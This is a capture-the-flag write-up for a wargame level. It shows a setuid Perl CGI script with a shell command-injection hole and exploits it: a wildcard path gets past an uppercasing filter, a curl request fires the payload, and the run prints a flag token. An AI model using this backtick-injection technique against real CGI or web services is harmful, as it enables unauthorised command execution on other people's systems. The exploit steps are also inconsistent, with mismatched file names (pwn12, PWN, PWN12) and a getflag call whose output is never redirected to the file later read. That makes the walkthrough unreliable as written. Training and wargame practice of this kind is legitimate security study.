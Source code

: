# level12

- We log as 'level12'

- A single file is located inside the home directory of level12:
>`-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl`

- The executable file has setuid & setgid bits permissions

- This is a perl script:
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

- We can see it is a CGI for a service running on the port 4646

- The CGI takes two arguments `x` and `y`, pass them through the `t` function and pass the return value of `t` is passed through the `n` function
>`n(t(param("x"), param("y")));`

- The `t` function parses the arguments by uppercasing all letters and by removing everything after the first whitespace
>`$xx =~ tr/a-z/A-Z/; `
>`$xx =~ s/\s.*//;`

- We can see `$xx` is then inserted into a string and this string is executed as a bash command, this will allow us to execute arbitrary code
```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

- We need to execute the `getflag` command but every input will be uppercased so we can't write `getflag` directly

- The `egrep` function finds every occurence of `^$xx` inside /tmp/xd and all errors are displayed on stdout

- Let's create a `/tmp/PWN12` file:
>`echo "getflag /tmp/pwned12" > /tmp/pwn12`
>`chmod 777 /tmp/PWN`

- By passing a string into back quotes as argument we will execute it as shell code so we will pass the script as arguments but our input must not contain any lowecase letters so we will use a wildcard:
```perl
`/*/PWN12`
```

- Let's send this to the service:
```bash
curl "http://localhost:4646/?x=\`/*/PWN12\`"
```

- We `cat` the result:
>`cat /tmp/pwned12`
>`Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr`

- We get the flag: `g1qKMiRpXf53AWhDaU7FEkczr`